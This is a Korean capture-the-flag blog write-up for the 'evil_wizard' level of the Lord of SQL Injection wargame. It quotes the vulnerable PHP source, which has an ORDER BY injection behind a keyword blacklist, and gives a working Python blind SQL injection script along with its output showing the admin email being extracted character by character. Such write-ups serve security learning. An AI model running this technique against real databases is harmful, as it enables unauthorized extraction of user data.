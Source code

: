 ```yaml
---
title: "[Lord of SQL Injection] LoS - evil_wizard 문제풀이"
date: 2018-08-24
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


`evil_wizard` 문제인데, 이 전에 `hell_fire` 문제랑 똑같이 생겼다.
주석을 보면 `same with hell_fire? really?`라고 적혀있는데, 뭐가 다른건지 모르겠다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

코드를 보면 이 전 문제인 `hell_fire`와 똑같다.
그런데 주석에 `same with hell_fire? really?`가 있는 것을 보니 뭔가 다른 부분이 있는 것 같았다.
그래서 `?order=id`를 입력 해 무슨 값이 들어있나 확인 해 보았다.  

|id|   |email|   |score|
|---|---|---|---|---|
|admin|   |**************|   |50|
|rubiya|   |rubiya805@gmail.com|   |100|

지난 문제에서는 `admin`의 `score`가 `200`이었어서, `order by` 뒤에 `id`를 넣을때와 `score`를 넣을 때가 결과가 달랐다.
그런데 이번에는 무슨 값을 넣어도 같은 결과가 나온다.
그래서 이 전 문제에서 사용했던 방법을 그대로 테스트 해 보았는데 너무 잘된다. ㅋㅋㅋ

뭔가... 이 전 문제는 내가 처음에 생각했던 방법대로 풀 수 있었던 문제인 것 같은데, 뭔가 문제가 망가진 것 같기도 하다.
아니면 내가 의도와 다르게 풀었거나...
어쨌든 그래서 그냥 이 전 문제 코드 그대로 가져다 풀었다.  

```python
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/evil_wizard_32e3d35835aa4e039348712fb75169ad.php?order="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		query = url + "if((id='admin' and length(email)=" + str(i) + "), score, 9999)"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(33, 128):
		try:
			query = url + "if((id='admin' and ord(substr(email, " + str(j) + ", 1))=" + str(i) + "), score, 9999)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<td>50</td></tr><tr><td>rubiya</td>' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

패스워드 길이는 이 전 문제랑 살짝 달랐다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  30
[+] Find password
[+] Found 1 : a
[+] Found 2 : aa
[+] Found 3 : aas
[+] Found 4 : aasu
[+] Found 5 : aasup
[+] Found 6 : aasup3
[+] Found 7 : aasup3r
[+] Found 8 : aasup3r_
[+] Found 9 : aasup3r_s
[+] Found 10 : aasup3r_se
[+] Found 11 : aasup3r_sec
[+] Found 12 : aasup3r_secu
[+] Found 13 : aasup3r_secur
[+] Found 14 : aasup3r_secure
[+] Found 15 : aasup3r_secure_
[+] Found 16 : aasup3r_secure_e
[+] Found 17 : aasup3r_secure_em
[+] Found 18 : aasup3r_secure_ema
[+] Found 19 : aasup3r_secure_emai
[+] Found 20 : aasup3r_secure_email
[+] Found 21 : aasup3r_secure_email@
[+] Found 22 : aasup3r_secure_email@e
[+] Found 23 : aasup3r_secure_email@em
[+] Found 24 : aasup3r_secure_email@ema
[+] Found 25 : aasup3r_secure_email@emai
[+] Found 26 : aasup3r_secure_email@emai1
[+] Found 27 : aasup3r_secure_email@emai1.
[+] Found 28 : aasup3r_secure_email@emai1.c
[+] Found 29 : aasup3r_secure_email@emai1.co
[+] Found 30 : aasup3r_secure_email@emai1.com
[+] Found password :  aasup3r_secure_email@emai1.com
[+] End
```

결과로 나온 이메일 값을 아래와 같이 넘겨주었다.  

```plain
?email=aasup3r_secure_email@emai1.com
```

힣 코드 한개로 2문제 풀었다! 개꿀!  

```php
------------------------------------------------------------------------------------------
query : select id,email,score from prob_evil_wizard where 1 order by
------------------------------------------------------------------------------------------

EVIL_WIZARD Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysql_query($query);
  while(($result = mysql_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```

---

```plain
EVIL_WIZARD Clear!!
```